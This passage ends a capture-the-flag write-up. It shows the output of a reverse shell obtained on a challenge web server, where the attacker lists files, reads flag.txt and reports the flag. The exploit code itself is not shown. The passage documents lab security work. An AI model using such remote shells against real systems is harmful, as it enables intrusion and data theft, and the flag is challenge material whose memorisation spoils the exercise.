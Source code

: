 {% endhighlight %}

### Getting the flag

With our exploit in hand, we can craft a HTTP request to the challenge website to get a reverse shell:

{% highlight bash linenos %}
Connection from node-02.challenges.stacks2020 35917 received!
→ ls
Dockerfile.dev
app.js
bin
config
flag.txt
migrations
models
node_modules
package-lock.json
package.json
public
routes
seeders
views
wait-for-db.sh
watcher.js
→ cat flag.txt
govtech-csg{P01lU+3d_t3Mpl@t3}
{% endhighlight %}

And we have our flag: ***govtech-csg{P01lU+3d_t3Mpl@t3}***
